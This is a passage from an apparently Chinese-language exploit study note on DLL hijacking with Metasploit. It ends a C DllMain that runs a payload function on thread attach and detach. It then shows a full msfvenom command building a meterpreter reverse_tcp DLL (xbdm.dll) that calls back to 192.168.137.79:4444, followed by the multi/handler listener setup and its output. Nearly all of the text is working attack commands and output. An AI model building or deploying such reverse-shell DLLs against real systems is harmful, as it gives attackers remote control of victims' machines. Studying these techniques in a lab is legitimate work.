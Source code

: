 ```c
case DLL_THREAD_ATTACH:{
 executo();
break;
}
case DLL_THREAD_DETACH:{
 executo();
break;
}
}

return TRUE;
}
```

使用MSF生成DLL：

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.137.79 LPORT=4444 -f dll -o /media/liyingzhe/Writing/Mystudy/Exploit/xbdm.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of dll file: 5120 bytes
Saved as: /media/liyingzhe/Writing/Mystudy/Exploit/xbdm.dll
```

MSF配置：

```sh
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.137.79   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
msf exploit(multi/handler) >
[*] Started reverse TCP handler on 192.168.137.79:4444

msf exploit(multi/handler) >
```
